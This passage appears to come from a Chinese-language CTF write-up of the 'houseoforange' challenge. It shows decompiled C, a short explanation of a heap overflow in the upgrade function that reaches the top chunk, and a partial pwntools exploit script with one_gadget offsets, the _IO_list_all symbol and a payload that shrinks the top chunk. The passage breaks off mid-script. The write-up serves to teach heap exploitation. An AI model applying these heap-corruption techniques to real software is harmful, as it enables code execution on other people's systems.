 ```C
    }
    printf("Name of house : %s\n", cur_block[1]);
    printf("Price of orange : %d\n", *(unsigned int *)*cur_block);
    v2 = rand();
    result = printf("\x1B[%dm%s\x1B[0m\n", *(unsigned int *)(*cur_block + 4LL), color[v2 % 8]);
  }
  return result;
}
```



&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>分析程序后可以发现在upgrade的时候存在明显的堆溢出，最大可以编辑0x1000大小而且不管原来的堆有多大，这就可以直接编辑到top chunk了，并为后续利用unsortedbin attack提供了条件。所以我们先利用house of orange泄漏地址：</font></br>



```python
from pwn import *

p=process('./houseoforange')
elf=ELF('/lib/x86_64-linux-gnu/libc.so.6')

context.log_level=1
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
#one_gadget=0x45216
#one_gadget=0x4526A
#one_gadget=0xf02a4
one_gadget=0xf1147
IO_list_all=elf.symbols['_IO_list_all']

sd=lambda x: p.send(x)
sl=lambda x: p.sendline(x)
rv=lambda x: p.recvuntil(x)
sa=lambda a,x: p.sendafter(a,x)
sla=lambda a,x: p.sendlineafter(a,x)

menu='Your choice : '

def add(size,content=''):
    sla(menu,'1')
    sla('Length of name :',str(size))
    sla('Name :',content)
    sla('Price of Orange:','2')
    sla('Color of Orange:',str(0xddaa))

def show():
    sla(menu,'2')


def edit(size,content):
    sla(menu,'3')
    sla('Length of name :',str(size))
    sla('Name:',content)
    sla('Price of Orange:','2')
    sla('Color of Orange:',str(0xddaa))



add(0x200)

payload='a'*0x200
payload+=p64(0)+p64(0x21)
payload+=p64(0x0000ddaa00000002)
payload+=p64(0)*2
payload+=p64(0xdb1)		# shrink the size of top chunk
```